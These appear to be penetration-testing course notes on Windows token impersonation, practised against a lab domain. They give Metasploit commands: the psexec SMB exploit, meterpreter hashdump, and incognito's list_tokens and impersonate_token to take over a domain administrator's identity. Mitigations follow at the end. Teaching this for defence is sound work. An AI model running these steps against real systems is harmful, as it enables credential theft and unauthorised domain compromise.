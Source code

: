 # Token Impersonation Attacks

What are **tokens**?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. (like cookies for computers)

Two types:
- Delegate
	- Created for logging into a machine or using Remote Desktop
- Impersonate 
	- non-interactive" such as attaching a network drive or a domain logon script

***
We will use the incognito module on Metasploit. Step by step:
```
sudo msfconsole
```

```
msf> use exploit/windows/smb/psexec
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/90105a15c4a24eb28578d0e62c2e36ed.png?raw=true)

Things we can run once we get the session

```
meterpreter> hashdump
meterpreter> getuid
meterpreter> sysinfo
```
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/ef387f845efe44e4a84b853a796f794c.png?raw=true)

Can now load tools. 
We will load incognito
```
meterpreter> load incognito
meterpreter> help
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/04242d7b3b9f488ea4f4d6cfff177795.png?raw=true)

We will try to impersonate a user
```
meterpreter> list_tokens -u
```
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/269a114dfa4b495e868691be77bcc2dd.png?raw=true)

Heath had MARVEL\Administrator available as a token (we had fcastle and could impersonate him):
```
meterpreter> impersonate_token marvel\\administrator
```
> we use two '\\' due to character escaping

Only who is logged in will show up. 
We can impersonate this user until the computer is rebooted

If we are cannot run system commands, can revert back to our identity:

```
meterpreter> rev2self
```
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/5458acfe8ea14b77b5a0cc739893cb55.png?raw=true)

## Token Impersonation Mitigation

- Limit user/group token creation permission (not as effective)
- Much better> Account tiering
	- Domain admins should only log into DC's not other devices, as doing so we can still token impersonation attacks with admin details
- Local admin restriction
	- If users are not local admins on their computers that prevents us from getting shell on their computer and utilising this kind of attack 


